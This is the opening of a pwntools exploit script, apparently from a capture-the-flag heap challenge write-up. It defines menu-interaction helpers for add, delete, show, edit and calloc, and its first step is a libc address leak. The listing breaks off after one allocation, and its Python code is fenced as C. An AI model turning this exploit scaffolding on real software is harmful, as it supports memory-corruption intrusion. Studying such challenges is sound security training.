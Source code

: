 ```c

menu_add = 1
add_index_words = 'Please input the chunk index>'
add_size_words = 'Please input the size>'
add_content_words = 'Please input the content>'

menu_del = 4
del_index_words = 'Please input the index>'

menu_show = 3
show_index_words = 'Please input the index>'

menu_edit = 5
edit_index_words = 'Please input the chunk index>'
edit_size_words = 'Please input the size>'
edit_content_words = 'Please input the content>'



def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def show(index=-1):
    sh.sendlineafter(choice_words, str(menu_show))
    if show_index_words:
        sh.sendlineafter(show_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def calloc(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(2))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

# 泄露libc地址并还原
add(index=0, size=0x500, content=b'aa')
```
